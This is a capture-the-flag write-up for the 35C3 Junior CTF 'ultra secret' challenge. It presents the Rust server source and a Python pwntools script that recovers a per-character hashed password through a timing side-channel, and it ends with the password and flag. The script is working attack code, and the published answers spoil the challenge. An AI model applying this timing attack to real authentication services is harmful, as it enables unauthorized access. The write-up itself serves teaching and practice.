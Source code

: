# 35C3 Junior CTF – ultra secret

* **Category:** Misc
* **Points:** 102 (variable)

## Challenge

> This flag is protected by a password stored in a highly sohpisticated chain of hashes. Can you capture it nevertheless? We are certain the password consists of lowercase alphanumerical characters only.
>
> nc 35.207.158.95 1337
>
> Difficulty estimate: Easy

## Solution

You will have the server source code written in *Rust*.

```Rust
extern crate crypto;

use std::io;
use std::io::BufRead;
use std::process::exit;
use std::io::BufReader;
use std::io::Read;
use std::fs::File;
use std::path::Path;
use std::env;

use crypto::digest::Digest;
use crypto::sha2::Sha256;

fn main() {
    let mut password = String::new();
    let mut flag = String::new();
    let mut i = 0;
    let stdin = io::stdin();
    let hashes: Vec<String> = BufReader::new(File::open(Path::new("hashes.txt")).unwrap()).lines().map(|x| x.unwrap()).collect();
    BufReader::new(File::open(Path::new("flag.txt")).unwrap()).read_to_string(&mut flag).unwrap();

    println!("Please enter the very secret password:");
    stdin.lock().read_line(&mut password).unwrap();
    let password = &password[0..32];
    for c in password.chars() {
        let hash =  hash(c);
        if hash != hashes[i] {
            exit(1);
        }
        i += 1;
    }
    println!("{}", &flag)
}

fn hash(c: char) -> String {
    let mut hash = String::new();
    hash.push(c);
    for _ in 0..9999 {
        let mut sha = Sha256::new();
        sha.input_str(&hash);
        hash = sha.result_str();
    }
    hash
}
```

The server asks for a password and calculates 9999 chained hashes, with SHA-256, for each passed char. The result for each char is compared with a stored one into a text file. If all chars are correct, then the flag is printed from a text file. If a char is wrong the script terminates itself.

There is nothing wrong into the script and the only way to print the flag is to discover the password.

The time to compute several hashes can be high. If a submitted char is correct, the time to receive the answer will be greater of the time to receive the answer for a wrong char, because the hash calculation for the next char will be executed. Hence a timing attack can be used to guess all the chars.

A Python script can be developed to automatize the operation.

```Python
from pwn import *

# 10e004c2e186b4d280fad7f36e779ed4

chars = list("1234567890qwertyuiopasdfghjklzxcvbnm")
password = list(" "*32)
possible_flag = None

for p in range(len(password)):
   print "[*] Char {}.".format(p)

   if password[p] != " ":
      print "[*] Already set, going on..."
      continue

   best_char = " "
   best_response_time = 0.0

   for c in range(len(chars)):
      password[p] = chars[c]
      password_string = "".join(password)
      print "[*] Testing password '{}'.".format(password_string)
      r = remote("35.207.158.95", 1337)
      print r.recvline()
      r.sendline(password_string)
      start = time.time()
      received_response = r.recvall()
      end = time.time()
      print received_response
      r.close()

      if received_response is not None and "35c3" in received_response.lower():
         possible_flag = received_response

      response_time = end - start
      print "[*] Response time is '{}'.".format(response_time)
      if response_time > best_response_time:
         best_response_time = response_time
         best_char = chars[c]

   password[p] = best_char

password_string = "".join(password)
print "    ===================================================="
print "[*] The password is '{}'.".format(password_string)
print "    ===================================================="

if possible_flag is not None:
   print "[*] A possible flag is '{}'.".format(possible_flag)
   print "    ===================================================="

print "[*] Testing password '{}'.".format(password_string)
r = remote("35.207.158.95", 1337)
print r.recvline()
r.sendline(password_string)
print r.recvall()
```

The password is: `10e004c2e186b4d280fad7f36e779ed4`.

The flag is the following.

```
35C3_timing_attacks_are_fun!_:)
```